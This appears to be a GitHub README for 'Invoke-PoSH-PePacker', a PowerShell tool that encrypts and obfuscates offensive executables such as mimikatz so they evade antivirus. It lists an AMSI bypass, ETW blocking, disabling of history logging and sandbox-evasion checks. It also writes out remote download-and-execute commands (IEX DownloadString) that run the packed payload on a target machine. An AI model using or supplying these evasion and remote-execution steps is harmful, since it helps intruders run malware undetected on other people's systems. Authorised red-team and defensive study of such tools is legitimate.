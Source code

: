 ### Invoke-PoSH-PePacker.ps1
--------------------------------------
'Invoke-PoSH-PePacker' allows to pack and encrypt offensive PE files in order to bypass AV solutions such as Windows Defender.  
It generates an obfuscated and encrypted PowerShell script that contains the PE file that you want to pack.

#### FEATURES
  - AES encryption and GZip/Deflate compression (based on 'Xencrypt')
  - Reflective PE injection (based on an updated version of 'Invoke-ReflectivePEInjection')
  - AMSI bypass (pseudo random)
  - Blocking Event Tracing for Windows (ETW)
  - Disabling PowerShell history logging
  - Basic sandbox evasion techniques (optional)
    - stop/exit if the PowerShell script is not run on a domain-joined Windows computer 
    - stop/exit if the PowerShell session is being debugged (detection based on "Test-Path Variable:PSDebugContext")
    - wait for 60 seconds before execution
  
#### USAGE
  - STEP 1. Generate an obfuscated & encrypted PowerShell script that contains your PE file (e.g. mimikatz.exe, havocdemon.exe) stored locally or on a remote web server.
```
[*] First load the PePacker
    PS C:\> IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/Jean-Francois-C/Windows-Penetration-Testing/master/Defense%20evasion%20(examples)/Invoke-PoSH-PePacker/Invoke-PoSH-PePacker.ps1');

[*] Then "pack/obfuscate" a Portable Executable file stored locally (with or without the sandbox checks enabled)
    PS C:\> Invoke-PoSH-PePacker -FilePath C:\path\PE-file.exe -OutFile C:\path\Packed-PE-file.ps1
    --- or ---
    PS C:\> Invoke-PoSH-PePacker -FilePath C:\path\PE-file.exe -OutFile C:\path\Packed-PE-file.ps1 -sandbox

[*] Or download and "pack/obfuscate" a Portable Executable file stored on a remote web server 
    PS C:\> Invoke-PoSH-PePacker -FileUrl https://URL/PE-file.exe -OutFile C:\path\Packed-PE-file.ps1 
    --- or ---
    PS C:\> Invoke-PoSH-PePacker -FileUrl https://URL/PE-file.exe -OutFile C:\path\Packed-PE-file.ps1 -sandbox
```
#### 
  - STEP 2. Download & execute the obfuscated & encrypted PowerShell script (that contains your PE file) on a target Windows computer
```
PS C:\> IEX (New-Object Net.WebClient).DownloadString('https://URL/Packed-PE-file.ps1'); Execute-PE
--- or ---
PS C:\> IEX (New-Object Net.WebClient).DownloadString('https://URL/Packed-PE-file.ps1'); Execute-PE argument1 argument2 ...

--- or (not recommended) ---
PS C:\> WGET -URI https://URL/Packed-PE-file.ps1 -OutFile C:\temp\Packed-PE-file.ps1
PS C:\> Import-Module C:\temp\Packed-PE-file.ps1
PS C:\> Execute-PE
        or 
PS C:\> Execute-PE argument1 argument2 ...
``` 

#### LICENSE
  - GNU General Public License v3.0
